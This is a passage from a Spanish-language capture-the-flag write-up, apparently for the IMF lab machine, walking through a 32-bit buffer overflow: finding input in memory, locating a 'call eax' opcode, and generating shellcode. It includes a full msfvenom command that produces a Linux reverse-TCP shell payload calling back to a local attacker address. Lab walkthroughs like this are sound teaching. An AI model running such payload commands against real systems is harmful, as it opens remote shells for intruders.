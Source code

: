 Para comprobar esto lo que podemos hacer es ejecutar `x/16wx $eax-4` y vemos como nuestro input se está almacenando ya que `\x41` representa a la **A** en hexadecimal.

![Pasted image 20240902234653.png](<../assets/images/posts/2024-10-20-imf/Pasted image 20240902234653.png>)

#### opcode

Lo que debemos hacer ahora es buscar algún **opcode** que nos permita realizar una llamada (**call**) o un salto (**jmp**) al **EAX**, para ello usaremos **nasm_shell**:

![Pasted image 20240902234730.png](<../assets/images/posts/2024-10-20-imf/Pasted image 20240902234730.png>)

Nos copiaremos el **opcode** del **call eax** y los buscamos dentro del binario usando **objdump**, y vemos la dirección de memoria de dicho `call eax`.

![Pasted image 20240902234748.png](<../assets/images/posts/2024-10-20-imf/Pasted image 20240902234748.png>)

Lo que debemos hacer ahora es generar nuestro **shellcode**, gracias a **msfvenom** con el siguiente comando:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.18.10 LPORT=443 -b '\x00\x0a\x0d' -f c
```

Es importante que nuestro **shellcode** no supere el **offset** de **168**, ya que en cuyo caso no nos funcionará el `call eax`. Vemos como no supera el **offset** por lo que en esa parte estaremos tranquilos.

![Pasted image 20240902235056.png](<../assets/images/posts/2024-10-20-imf/Pasted image 20240902235056.png>)
